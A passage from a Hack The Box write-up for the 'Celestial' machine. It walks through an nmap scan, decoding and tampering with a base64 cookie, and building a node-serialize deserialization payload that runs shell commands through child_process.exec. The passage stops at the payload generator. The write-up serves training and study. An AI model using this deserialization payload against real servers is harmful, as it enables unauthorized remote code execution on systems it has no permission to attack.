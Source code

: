 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: test crypto
---
```


![Machine-Icon](../../../assets/images/Celestial/Celestial.png)


OS -> Linux.

Difficulty -> Medium.

# Introduction:

Hello hackers! Today we will be solving the Celestial Machine. An easy difficulty Machine in which we will have to exploit a deserialization attack in node.js that will allow us to gain access to the System. Once inside, we will carry out the privilege escalation by exploiting a Python script executed by root at time intervals in the system.

Without further ado, let's get to the first phase, the enumeration phase!

# Enumeration:

We start by running the typical nmap scan to see which ports are open:

```bash
❯ nmap -p- 10.10.10.85 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:31 CET
Nmap scan report for 10.10.10.85
Host is up (0.076s latency).
Not shown: 64449 closed tcp ports (reset), 1085 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.04 seconds
```


As we can see, nmap has only detected Port 3000 open, node.js default port, so we proceed to list it and find the following:


![1](../../../assets/images/Celestial/1.png)


At first glance, it doesn't seem interesting at all, but when intercepting the request with Burp Suite we find the following:

![2](../../../assets/images/Celestial/2.png)

# Node JS Deserilization 

The cookie appears to be in base64, so let's apply a decode:

```bash
❯ echo -n 'eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==' | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Let's try to control the output of the page manipulating the cookie vault and resending it with Burp Suite:

```bash
❯ echo -n '{"username":"Clever","country":"TheBest","city":"Barcelona","num":"10000"}' | base64 -w 0
eyJ1c2VybmFtZSI6IkNsZXZlciIsImNvdW50cnkiOiJUaGVCZXN0IiwiY2l0eSI6IkJhcmNlbG9uYSIsIm51bSI6IjEwMDAwIn0=
```

![3](../../../assets/images/Celestial/3.png) 

We have been able! The server has interpreted the serialized data that we have sent it without any control. So if we build a malicious payload we can try to execute commands on the system.

## Crafting a Malicious Serialized Payload:

To probe our theory, we are going to craft a payload to receive a curl from the victim machine in a localhost server hosted in our port 8082.

To do this we will use the following data serializer that we have taken from the following website -> https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

